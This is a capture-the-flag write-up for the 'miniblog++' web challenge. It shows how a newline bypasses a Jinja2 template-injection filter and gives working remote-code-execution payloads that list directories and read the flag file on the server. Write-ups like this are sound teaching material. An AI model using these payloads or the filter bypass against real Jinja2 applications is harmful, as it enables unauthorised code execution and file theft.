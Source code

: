 # miniblog++

## 📄 Description

I need to concentrate on the backup feature.

![Oops](./image/description.jpg)

## 💻 Explore the website

There is a form to login.

![Oops](./image/login.jpg)

I don't need to register, so I use `username = a` and `password = b` to test.

There are three buttons/features: `NEW`, `EXPORT`, `IMPORT`.

`NEW` button allows user to create a post on user's account.

![Oops](./image/post_test.jpg)

When I saw `{{title}}` in the pop-up form, I thought about SSTI Jinja2. So I tested:

![Oops](./image/post_test_ssti.jpg)

![Oops](./image/error.jpg)

Maybe input is filtered.

I continued to test all the features:

* `NEW` button: creates post

* `EXPORT` button: allows user to download encrypted file for backup.

* `IMPORT` button: allows user to upload backup file.

Maybe I can import arbitrary content (backup feature is mentioned in description) to exploit SSTI. But someone in Discord talked about unintended way.

## 🧑‍💻 Processing:
**app.py:**

There are some filter stages:
* `{%` is prohibited.
* All the words formed from `r"{{.*?}}"` have to match this form `r"{{!?[a-zA-Z0-9_]+}}"`.

Look at the dot in ``r"{{.*?}}"``. 

![Oops](./image/bypass_regex.jpg)

I can bypass using line breaks. 🤣
![Oops](./image/ssti_test_payload.jpg)
![Oops](./image/ssti_found.jpg)

I use RCE payload:

```py
{{ 
namespace.__init__.__globals__.os.popen('ls ../../').read() }}
```

![Oops](./image/exploit_ls.jpg)

```py
{{ 
namespace.__init__.__globals__.os.popen('cat ../../flag-wowRCEwow.txt').read() }}
```

![Oops](./image/flag.jpg)

**🚩Flag: `zer0pts{You_obtained_a_Bachelor_of_ZIP}`**

## P/S:
This is unintended way to solve this challenge. After realizing unintended way, zer0pts team released a harder version.